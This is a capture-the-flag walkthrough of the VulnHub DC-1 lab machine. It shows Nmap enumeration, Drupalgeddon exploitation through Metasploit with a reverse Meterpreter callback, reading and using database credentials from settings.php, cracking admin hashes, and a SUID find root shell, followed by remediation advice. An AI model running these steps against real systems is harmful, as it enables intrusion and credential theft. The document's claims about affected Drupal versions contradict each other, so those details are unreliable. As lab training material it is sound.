










# DC-1 Write-up

> **Platform:** VulnHub — [DC-1](https://www.vulnhub.com/entry/dc-1,292/) **Machine:** DC-1 **Difficulty:** Beginner **Operating System:** Debian Linux **Author:** Ctum

---
## Overview

DC-1 is a beginner-friendly boot2root machine from VulnHub that focuses on basic web enumeration, exploiting a vulnerable Drupal installation, and a simple Linux privilege escalation.

The machine was straightforward but does a good job of reinforcing the importance of enumeration. Every flag pointed towards the next step, making it a great lab for building a structured methodology.

---
## Attack Path

1. Enumerated open services with Nmap.
2. Identified the target as Drupal 7 using Droopescan.
3. Confirmed a vulnerable version and found a public exploit (Drupalgeddon / CVE-2014-3704).
4. Gained remote code execution via the Metasploit `drupal_drupageddon` module.
5. Retrieved database credentials from the Drupal configuration file.
6. Accessed the Drupal database and cracked administrator password hashes.
7. Used the application's own hints to enumerate SUID binaries.
8. Abused the `find` binary to gain root privileges.
9. Retrieved the final flag.

---

## Initial Enumeration

I started with an Nmap scan to identify open ports and services running on the target.

```bash
nmap -sC -sV 192.168.56.102 --open
```



|Port|Service|
|---|---|
|22|SSH|
|80|HTTP (Apache 2.2.22)|
|111|rpcbind|
|51011|status (rpc.statd)|

Port 80 immediately stood out since it was hosting a web application, and the `http-generator` header already gave away that this was a Drupal 7 site — the robots.txt disallow list (`/CHANGELOG.txt`, `/INSTALL.txt`, etc.) is another classic Drupal fingerprint.

---

## Web Enumeration

Opening the website showed what looked like a default Drupal page.



The page source didn't reveal anything interesting, so I decided to fingerprint the CMS more precisely using Droopescan.

```bash
droopescan scan drupal -u http://192.168.56.102
```


## Looking for Vulnerabilities

Since the target was running an older Drupal version, I checked Exploit-DB for known vulnerabilities.

```bash
searchsploit drupal 7 remote
```

Anything below Drupal 7.58 is vulnerable to **Drupalgeddon (CVE-2014-3704)** — a SQL injection flaw in Drupal's form API that leads to PHP object injection and, ultimately, remote code execution. Rather than using a standalone PoC script, I used the Metasploit module.

```text
msf > search drupal

Matching Modules
================
  #   Name                                                Disclosure Date  Rank       Description
  -   ----                                                ---------------  ----       -----------
  16  exploit/multi/http/drupal_drupageddon               2014-10-15       excellent  Drupal HTTP Parameter Key/Value SQL Injection
      \_ target: Drupal 7.0 - 7.31 (form-cache PHP injection method)
      \_ target: Drupal 7.0 - 7.31 (user-post PHP injection method)
```

The listing also showed `drupal_drupalgeddon2` (2018, CVE-2018-7600) and a handful of other Drupal modules, but since the target versions (7.22–7.26) fall within the 7.0–7.31 range, the original **Drupageddon** module was the correct fit.

---
## Exploitation

Inside Metasploit:

```text
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.56.102
set LHOST 192.168.56.1
run
```

The exploit succeeded and returned a Meterpreter session.



I then dropped to a shell and upgraded it to a proper interactive TTY.

```bash
shell

which python

python -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Flag 1

While exploring the web directory, I found the first flag.

```bash
cd /var/www
cat flag1.txt
```

```text
Every good CMS needs a config file - and so do you.
```

The hint pointed straight at a configuration file.



---

## Configuration File

For Drupal 7, the default configuration file lives at `sites/default/settings.php`. I checked it for credentials.

```bash
cat sites/default/settings.php
```

This gave me **Flag 2**, plus working MySQL credentials (`dbuser` / `R0ck3t`) for the `drupaldb` database.



---

## Database Enumeration

Using the credentials from the configuration file, I connected to MySQL.

```bash
mysql -u dbuser -p
# password: R0ck3t
```

Inside `drupaldb`, the `users` table contained password hashes in Drupal 7's format — a salted, iterated SHA-512 hash (phpass-style) identifiable by the `$S$` prefix:

```text
admin      $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR   admin@example.com
Fred       $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg  fred@example.org
```

I cracked the `admin` hash using an online [hash cracker](https://hashes.com/en/decrypt/hash/?r=6). 

This recovered the admin credentials: **`admin : 53cr3t`**. Logging into the Drupal admin dashboard with these credentials revealed **Flag 3**.



The hint was a fairly direct pointer: **PERMS** → special permissions (SUID/SGID bits), **FIND** → the `find` command.

---

## Privilege Escalation

Before jumping to escalation, I poked around the filesystem and found another hint under `/home`.

```bash
cat /home/flag4/flag4.txt
```



Flag 3 had already told me what to look for, so I enumerated SUID binaries directly:

```bash
find / -perm -4000 -type f 2>/dev/null
```

This turned up `/usr/bin/find` with the SUID bit set — an unusual and dangerous misconfiguration. A quick check on [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) confirmed that `find` can spawn a shell inheriting the SUID privilege:

```bash
find . -exec /bin/sh \; -quit
```

It worked immediately.

```bash
whoami
```

```text
root
```



---

## Final Flag

Now that I had root privileges, I navigated to the root directory.

```bash
cd /root
cat thefinalflag.txt
```



Machine complete.

---
## Flags Summary

|Flag|Location|How it was found|
|---|---|---|
|1|`/var/www/flag1.txt`|Found post-RCE while browsing the web root|
|2|`sites/default/settings.php`|Embedded in the Drupal DB config comment block|
|3|Drupal admin dashboard|Logged in with cracked admin credentials|
|4|`/home/flag4/flag4.txt`|Hint pointing toward `/root` using the same method|
|5 (final)|`/root/thefinalflag.txt`|Retrieved after SUID `find` privilege escalation|

---
## Remediation

- **Upgrade Drupal** past 7.32 (or to a supported major version)  this closes CVE-2014-3704 entirely.
- **Never store plaintext database credentials** in a web-accessible config file without restricting file permissions (`settings.php` should not be world-readable).
- **Remove the SUID bit from `find`** (`chmod u-s /usr/bin/find`)  there's essentially never a legitimate reason for it to run as root by default.
- **Audit for SUID/SGID binaries regularly**: `find / -perm -4000 -o -perm -2000 -type f 2>/dev/null` and compare against a known-good baseline.
- **Enforce strong password policy** on CMS accounts  the admin password here fell to a basic wordlist attack.

---

## Lessons Learned

- Enumeration makes exploitation much easier.
- CMS fingerprinting can quickly reveal known vulnerabilities.
- Configuration files often contain valuable credentials.
- Database access can lead to administrative access.
- GTFOBins is an excellent resource for Linux privilege escalation.
- Always pay attention to hints left throughout the machine.

---
## Tools Used

- Nmap
- Droopescan
- Searchsploit
- Metasploit
- Hashcat
- GTFOBins

---
## Technologies Encountered

- Drupal 7
- Apache
- MySQL
- Debian Linux

---
## Skills Practiced

- Network Enumeration
- Web Enumeration
- CMS Fingerprinting
- Drupal Exploitation (CVE-2014-3704)
- Password Cracking
- Database Enumeration
- Linux Privilege Escalation
